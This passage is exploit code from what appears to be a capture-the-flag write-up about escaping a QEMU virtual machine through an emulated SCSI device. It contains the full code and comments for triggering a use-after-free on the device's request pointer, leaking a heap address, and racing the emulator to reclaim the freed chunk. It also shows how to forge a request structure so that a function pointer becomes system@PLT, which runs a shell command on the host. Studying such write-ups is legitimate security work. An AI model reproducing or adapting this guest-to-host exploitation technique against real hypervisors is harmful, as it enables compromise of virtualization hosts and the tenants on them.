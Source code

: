     // Unimportant but needed to avoid the next ctf_process_reply
    // from overwriting our head data
    set_register_b( (unsigned int)head_phys + 0x100 );

    // Creates and sends a SCSI request
    // _complete is triggered here because we need to force dma_buf allocation first
    ctf_process_req( head_phys );

    // Creates and sends a SCSI request
    // but because dma_buf is allocated now we avoid triggering _complete
    ctf_process_req( head_phys );

    // _reply is needed so we can clear the status & 8 flag
    // this is needed for later
    ctf_process_reply();

    // We change the target SCSI Device ID so scsi_device_find fails
    // to find a device so we dont overwrite our cur_req dangling pointer
    // with another valid pointer in ctf_process_req
    head->id = 1;

    // Prepares the argument for when we overwrite the ops->get_buf ptr
    // with system@PLT
    // at the same time it prepares the fake SCSIRequest structure
    set_register_b( (unsigned int)head_phys + 0x200 );
    char* fake_req = (char*)head + 0x200;
    strcpy( fake_req, "cat flag" );
    *(size_t*)&fake_req[0x28] = elf + 0x204948;

    // This will trigger the free of cur_req
    // then fail to find a target SCSI Device and return
    // leaving the dangling pointer
    ctf_process_req( head_phys );

    // We need quick and optimized leak of the cur_req ptr
    // before QEMU allocates this memory for something else
    leak_elf( guessed, 9 );

    // Keep preparing the fake SCSIRequest structure
    size_t req = *(size_t*)&guessed[4];
    *(size_t*)&fake_req[0x10] = req;

    // This line may slow us down
    printf( "heap: %p\n", (void*)req );

    // Here we are racing with QEMU for the cur_req ptr
    // This will request same sized chunk as the cur_req
    ctf_add_cmd_data( 0x1b0 );

    // This will trigger the fake_req->ops->get_buf call
    // which is now system@PLT
    // with argument const char* "cat flag"
    ctf_process_reply();

    // Nobody cares about this
    munmap( head, 0x1000 );
    munmap( mmio, 0x1000 );
    return 0;
}
{% endhighlight %}
